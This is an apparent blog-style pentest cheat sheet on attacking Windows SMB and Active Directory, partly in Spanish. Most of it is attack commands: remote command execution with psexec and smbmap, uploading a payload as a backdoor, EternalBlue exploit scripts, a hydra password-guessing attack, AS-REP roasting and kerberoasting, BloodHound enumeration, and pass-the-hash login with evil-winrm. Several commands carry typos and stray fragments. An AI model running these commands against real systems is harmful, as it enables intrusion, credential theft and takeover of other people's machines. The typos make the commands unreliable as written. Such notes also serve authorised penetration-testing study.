 ```yaml
---
title: 'SMB (Server Message Block)'
description: ''
pubDate: 'Jul 03 2022'
heroImage: '/ldapi.jpg'
tag: ['windows', 'smb']
---
```


## Information

- It's a network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a local network (LAN).

- Uses port 445(TCP). SMB ran on top of NetBIOS using port 139.

- Samba is an open source Linux implementation of SMB, and alllows Windows systems to access Linux shres and devices

## Exploit

knowing creds.

```bash
psexec.py Administrator@target cmd.exe
```

### Windows Discover and mount

How to mount in powershell:

```bash
# Clear the stored session
net use * /delete

# Mount the target folder
net use Z: \\10.4.17.133\C$ smbserver_771 /user:administrator
```

### SMB Windows Recon: Nmap scripts

```bash
$nmap target
135/tcp   open    msrpc
139/tcp   open    netbios-ssn
445/tcp   open    microsoft-ds

# list the supported protocols and dialects of an SMB server
$nmap -p445 --script smb-protocols target
...

# information about the SMB security level.
$nmap -p445 --script smb-security-mode target
...(but defult usually makes good )
... acc

# with creds discover sensitive information
$nmap -p445 --script smb-enum-sessions target
...

# In case guest login is not enabled we can always use valid credentials of the target machine to discover the same information

$nmap -p445 --script smb-enum-sessions --script-args
...smbusername=administrator,smbpassword=smbserver_771 target

$nmap -p445 --script smb-enum-sessions target --script-args smbusername=administrator,smbpassword=smbserver_771 target
...

$nmap -p445 --script smb-enum-shares target
...

$nmap -p445 --script smb-enum-shares target --script-args
...smbusername=administrator,smbpassword=smbserver_771 target
```

### smbmap Recon

```bash
# NULL SESSION - user, pass, directory, host
smbmap -u guest -p "" -d . -H target

# Remote code execution :D!
smbmap -u administrato -p "" -d . -H target -x 'ipconfig'

smbmap -u administrato -p "" -d . -H target -x 'ipconfig' -L

# connect to C drive
smbmap -u administrato -p "" -d . -H target -x 'ipconfig' -r 'C$'

# upload file
smbmap -u Administrator -p "smbserver_771" -H target -d --upload '/root/payload' 'C$\backdoor'

# download file
smbmap -u Administrator -p "smbserver_771" -H target --download 'C$\flag.txt'

```

### SMBClient - ftp-like client to access SMB/CIFS resources on servers.

Windows 7 y smb puede ser un Eternalblue.

-> AutoBlue-Ms17-010

1: eternal_checker.py target
2: python2.7 zzz_exploit.py target

```bash
$nmbloopup -A taget

$rpcclient -U "" -N target

# If we see IPC$ maybe null session works
$smbclient -L target -N

...-h
...enumerate

######################################
# Despues de montar podemos ver en ls -lsa /media/k_share
sudo mount.cifs //target/c /media/k_share user=,pass=

# Dictionary attack

hydra -l admin -P /usr/share/wordlist/rockyou.txt target smb

#if discover pass
smbmap -H target -u admin -p password1

# pivot
$smbclient -L target -U jane
or
$smbclient //target/jane -U jane

#other way to find users:
$enum4linux -r -u "admin" -p "password1" target

```

### Kerberos

```bash
# AS-REP Roasting attack, el usuario que muestre tiene configurado UF_DONT_REQUIRE_PREAUTH
GetNPUsers.py domaindomain_name.local/ -no-pass -usersfile culos_validos.txt

# intentamos crackear el hash con jhon, si conseguimos el pass toca
# kerberoasting attack
GetUserSPN.py 'domain_name.local/username:password' -request

# no aplica psexec.py si cmp no pwnea el usuario, si no muetra nada smbmap

#desplegar un smbrelay y tratando de interceptar autenticacion a nivel red si el smb no esta firmado se puede tratar de coger la autenticacion de un usuario privs, es un hash a nivel de red no permite hacer cepas de hash o retocar el responder.conf indicadno las target.
# apt install bloodhound neo4j
neo4j console
# bloodhound para enumerar, detectar vias para escalar privs
bloodhound-python.py -c all -u 'culo' -p 'culo' -ns 10.10.10.10 -d domainname.local

# pass de hash
cmp winrm doman -u 'culo' -H 'HASH'
# este usuario pertenece al grupo remote management users
evil-winrm -i domain -u 'culo'

```
